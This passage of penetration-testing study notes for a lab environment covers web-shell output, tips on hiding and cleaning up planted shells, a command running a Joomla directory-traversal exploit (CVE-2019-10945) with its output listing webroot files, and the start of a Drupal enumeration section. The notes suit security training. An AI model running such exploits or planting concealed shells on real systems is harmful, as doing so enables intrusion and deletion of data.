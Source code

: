 Expected Output:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### 🔐 Best Practices

* Use non-obvious filenames/parameters
* Limit access (e.g., by IP or password)
* Clean up the shell after use
* Document: file name, hash, and location for reporting

## 🧨 Leveraging Known Vulnerabilities

### CVE-2019-10945

* **Type**: Directory Traversal & Authenticated File Deletion
* **Affected**: Joomla 1.5.0 – 3.9.4
* **Target Version**: Joomla 3.9.4

### Usage

Use the exploit script:

```bash
python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
```

### Outcome

Lists webroot directories:

```
administrator
components
images
includes
modules
templates
...
configuration.php
index.php
```

> This vulnerability can be used to read or delete sensitive files if accessible via the browser.

---

# 🧭 Drupal - Discovery & Enumeration

## 📘 Overview
- **Drupal** is an open-source CMS written in PHP.
- Supports: **MySQL**, **PostgreSQL**, and **SQLite**.
- Enhancements: **Themes** and **Modules** (43,000+ modules, 2,900+ themes).
- Major users: **Tesla**, **Warner Bros Records**, many governments, and universities
